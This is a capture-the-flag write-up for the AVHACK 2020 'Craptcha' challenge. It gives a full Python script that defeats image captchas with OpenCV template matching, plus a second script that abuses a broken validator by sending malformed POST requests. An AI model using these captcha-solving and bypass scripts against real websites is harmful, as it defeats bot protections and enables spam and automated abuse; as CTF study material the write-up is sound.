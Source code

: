 # Craptcha (AVHACK 2020) (Very hard)

![description](files/description.png)

![site](files/webpage.png)

From site we can see that we have some pretty generic captcha to solve, upon entering the right captcha we see following:

![successful_captcha](files/correct_captcha.png)

This means we need to fill 10000 captchas to get the flag, sounds quite tedious task to do by hand. Lets also find out what happens if we get it wrong.

![wrong](files/wrong.png)

So that means we have to get all captchas 100% right.

First idea I had was to try using OCR since we need to optically recognize characters of a image, and OCR should suit it. However after trying out tesseract and gocr, neither of those gave satisfactory results due to being not accurate enough.

Then I got another idea upon checking captchas out more. I discovered that line height of text is always, the same. This means we can do literal image search within image, since the characters are not warped in anyway.

## Way to solution

Firstly we need to get all characters of character set which are used to create the captcha images, to achive that we need to download bunch of captcha images and cut out the templates for letters.

I wrote python script to solve all of this challenge, but firstly I had to gather some captchas which is also part of the solver. After getting bunch of captchas I went over like 30 to and cut out the templates for unique characters.

Captcha characterset consists of 24 characters which are following:
![characterset](files/characetrset.png)

I had to tweak some of the templates because of bad recognition, for example j letter in text cannot be selected by box because it will cut into previous character like this:

![j_mess](files/j_mess.png)

To counter that I could just cut j pretty straight without the lower part of it since letter i is not used in characterset.

Another problematic letter was y and v since, y was getting recognized as v cause, v template didn't have additional space on the bottom part of the template. So pattern matching understood y as v, since y kinda looks like v without the lower part. So you can see on the characterset picture that v has some blank space at the bottom.

Now that we have characterset ready for recognition we can write our solver code!

```python
import requests # Module for making get/post requests
from bs4 import BeautifulSoup # HTML parser to find elements
import os # Listing files
import cv2 # Open ComputerVision lib
import shutil # Copying data to file
import numpy as np # Numpy for filtering np arrays

# Create session, since progress is tracked by session cookies
s = requests.session()

# Letter template files
letter_files = os.listdir('./letters/')

# Load templates into memory to make it faster
letters = [cv2.imread('./letters/' + letter_file) for letter_file in letter_files]

# URL to get the captcha from
url = "http://ctfp.ee:9999/captcha.php"
# URL to post answer to
post_url = "http://ctfp.ee:9999/"

# Magic detection function
def get_captcha_text(image):
    detected_letters = []

    # Iterate over each template character and see if it is in picture
    for template, letter in zip(letters, letter_files):
        # This returns us the template matching results
        result = cv2.matchTemplate(image, template, cv2.TM_CCOEFF_NORMED)
        # Filter out only matches where match % >= 95
        loc = np.where(result >= 0.95)
        # If matches were found for letter
        if loc[1].size:
            # Add letter to detected letters for later on with x
            # coordinate where the letter was found
            detected_letters.append((letter, loc[1]))

    answer = {}


    # Go over detected letters
    for letter in detected_letters:
        # Can be multiple of same letter 
        # (letter is a tuple of file name and x index of match found)
        for index in letter[1]:
            # Use x coord as dictionary key to sort them later on
            answer[index] = letter[0].split('.jpeg')[0]


    answer = dict(sorted(answer.items()))

    text = ""

    # Make our sorted dict into string of detected captcha text
    for key in answer.keys():
        text += answer[key]

    return text

# Get 10000 captchas and solve them!
for i in range(10000):
    # Request captcha from captcha url
    r = s.get(url, stream=True)

    filename = f'captcha.jpeg'

    # Save captcha as file (could be done without saving to file too)
    with open(filename, 'wb') as picture:
        shutil.copyfileobj(r.raw, picture)

    # Open image for comparision
    image = cv2.imread(filename)

    # Feed it to the magic function!
    captcha_message = get_captcha_text(image)


    payload = {
        'captcha' : captcha_message
    }

    # Post the found captcha to site!
    r = s.post(post_url, data=payload)

    # Parse out response text and display progress
    soup = BeautifulSoup(r.text, 'lxml')
    try:
        h3 = soup.find("h3")
        print(h3.text)
    except AttributeError:
        # If there is no h3 tag then flag exists on page.
        flag = soup.find_all("div", {'class' : 'p-5'})
        # Profit we found the flag!
        print(flag[1].text.strip().split('\n')[0].strip())

```

This solver solves 10000 captchas pretty quickly, however upon tinkering I found out even faster way to crack this challenge.

Captcha validator is broken and doesn't handle faulty post requests and increases your progress anyway. Following is proof of concept.

```python
import requests
from bs4 import BeautifulSoup

cookies = {
    'session': '5b8a83c4-7930-424d-9312-27a6a19c83a0.KPT1QyRRbR_ogG9-MpzeaXzkSQk',
    'PHPSESSID': 'pr24ct3me3o69fp1sg8s6be2gk',
}

headers = {
    'Connection': 'keep-alive',
    'Cache-Control': 'max-age=0',
    'Upgrade-Insecure-Requests': '1',
    'Origin': 'http://ctfp.ee:9999',
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Referer': 'http://ctfp.ee:9999/',
    'Accept-Language': 'en-US,en;q=0.9,et;q=0.8,et-EE;q=0.7',
}

text = "i am broken"

for i in range(10000):
    response = requests.post('http://ctfp.ee:9999/', cookies=cookies, headers=headers, data=text)
    soup = BeautifulSoup(response.text, features='lxml')
    try:
        h3 = soup.find("h3")
        print(h3.text)
    except AttributeError:
        flag = soup.find_all("div", {'class' : 'p-5'})
        print(flag[1].text.strip().split('\n')[0].strip())


```

So in the end no captchas needed actually to be solved :o

Was a fun challenge to crack!